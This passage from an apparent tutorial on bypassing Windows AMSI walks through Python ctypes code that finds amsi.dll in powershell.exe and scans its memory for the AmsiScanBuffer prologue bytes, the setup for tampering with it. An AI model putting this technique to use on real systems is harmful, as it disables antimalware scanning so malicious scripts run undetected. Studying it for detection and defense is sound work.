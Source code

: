 Using the opened handle of the process, we need
to find those instructions in the memory of
the `powershell.exe` processes.

First, we need to write down those bytes in
a variable:

```python
AmsiScanBuffer = (
    b'\x4c\x8b\xdc' +       # mov r11,rsp
    b'\x49\x89\x5b\x08' +   # mov qword ptr [r11+8],rbx
    b'\x49\x89\x6b\x10' +   # mov qword ptr [r11+10h],rbp
    b'\x49\x89\x73\x18' +   # mov qword ptr [r11+18h],rsi
    b'\x57' +               # push rdi
    b'\x41\x56' +           # push r14
    b'\x41\x57' +           # push r15
    b'\x48\x83\xec\x70'     # sub rsp,70h
)
```

Then, using the discovered base address of `amsi.dll`,
we need to iterate over the memory of the process
trying to find those instructions. To do that,
I created the following function:

```python
def readBuffer(handle, baseAddress, AmsiScanBuffer):
    KERNEL32.ReadProcessMemory.argtypes = [c_ulong, c_void_p, c_void_p, c_ulong, c_int]
    while True:
        lpBuffer = create_string_buffer(b'', len(AmsiScanBuffer))
        nBytes = c_int(0)
        KERNEL32.ReadProcessMemory(handle, baseAddress, lpBuffer, len(lpBuffer), nBytes)
        if lpBuffer.value == AmsiScanBuffer:
            return baseAddress
        else:
            baseAddress += 1
```

The function will take the handle of the
`powershell.exe` process, the base address of
`amsi.dll` and the `AmsiScanBuffer` function
prologue opcodes and will increment by 1 the
addresses until the pattern is matched

The relevant part of the script was updated:

```python
...
snapshotHandle = KERNEL32.CreateToolhelp32Snapshot(TH32CS_SNAPMODULE, pid)
ret = KERNEL32.Module32First(snapshotHandle, pointer(me32))
while ret:
    if me32.szModule == b'amsi.dll':
        print(f'[+] Found base address of {me32.szModule.decode()}: {hex(me32.modBaseAddr)}')
        KERNEL32.CloseHandle(snapshotHandle)
        amsiDllBaseAddress =  me32.modBaseAddr
        break
    else:
        ret = KERNEL32.Module32Next(snapshotHandle , pointer(me32))
AmsiScanBuffer = (
    b'\x4c\x8b\xdc' +       # mov r11,rsp
    b'\x49\x89\x5b\x08' +   # mov qword ptr [r11+8],rbx
    b'\x49\x89\x6b\x10' +   # mov qword ptr [r11+10h],rbp
    b'\x49\x89\x73\x18' +   # mov qword ptr [r11+18h],rsi
    b'\x57' +               # push rdi
    b'\x41\x56' +           # push r14
    b'\x41\x57' +           # push r15
    b'\x48\x83\xec\x70'     # sub rsp,70h
)
```